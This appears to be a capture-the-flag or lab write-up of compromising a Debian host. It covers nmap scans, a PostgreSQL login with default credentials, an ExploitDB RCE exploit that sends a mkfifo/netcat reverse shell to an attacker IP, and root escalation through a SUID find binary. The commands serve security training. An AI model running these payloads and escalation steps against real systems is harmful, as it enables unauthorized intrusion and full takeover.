






Nmap scan
```sh
nmap -p- --min-rate 5000 -T4 -Pn 192.168.168.47
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-16 10:04 IST
Nmap scan report for 192.168.168.47
Host is up (0.25s latency).
Not shown: 65529 filtered tcp ports (no-response)
PORT     STATE  SERVICE
21/tcp   open   ftp
22/tcp   open   ssh
80/tcp   open   http
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   pmip6-data

Nmap done: 1 IP address (1 host up) scanned in 26.84 seconds
```

```sh
nmap -sC -sV -T4 -Pn -p 21,22,80,139,445,5437 192.168.168.47
Starting Nmap 7.95 ( https://nmap.org ) at 2026-02-16 10:07 IST
Stats: 0:00:12 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 98.05% done; ETC: 10:07 (0:00:00 remaining)
Nmap scan report for 192.168.168.47
Host is up (0.099s latency).

PORT     STATE  SERVICE      VERSION
21/tcp   open   ftp          vsftpd 3.0.3
22/tcp   open   ssh          OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 10:62:1f:f5:22:de:29:d4:24:96:a7:66:c3:64:b7:10 (RSA)
|   256 c9:15:ff:cd:f3:97:ec:39:13:16:48:38:c5:58:d7:5f (ECDSA)
|_  256 90:7c:a3:44:73:b4:b4:4c:e3:9c:71:d1:87:ba:ca:7b (ED25519)
80/tcp   open   http         Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Enter a title, displayed at the top of the window.
139/tcp  closed netbios-ssn
445/tcp  closed microsoft-ds
5437/tcp open   postgresql   PostgreSQL DB 11.3 - 11.9
| ssl-cert: Subject: commonName=debian
| Subject Alternative Name: DNS:debian
| Not valid before: 2020-04-27T15:41:47
|_Not valid after:  2030-04-25T15:41:47
|_ssl-date: TLS randomness does not represent time
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 16.74 seconds
```

From the Nmap scan results, discovered that PostgreSQL was running on port 5437. Using the default credentials “postgres/postgres,” successfully connected to the database, but no sensitive information such as usernames or credentials was found.

```sh
psql -h 192.168.168.47 -p 5437 -U postgres
```


The Nmap scan revealed that the PostgreSQL version was between 11.3 and 11.9. After further research, found that versions 9.3 to 11.7 are vulnerable to authenticated remote code execution.


Then I used an exploit from ExploitDB (searchsploit) to execute system commands.


Before exploiting the vulnerability to gain a reverse shell, set up a Netcat listener on our attacking machine with the command `nc -lvp 80` to receive connection. By crafting a payload specifically for PostgreSQL, I was able to get a reverse shell from the target machine.

```sh
python3 50847.py -i 192.168.168.47 -p 5437 -c 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.45.240 80 >/tmp/f'
```

We got the shell.



### Privilege Escalation
Further enumeration revealed that the `find` binary had the SUID permission enabled.
```sh
find / -perm -u=s -type f 2>/dev/null
```


```sh
find . -exec /bin/sh -p \; -quit
```




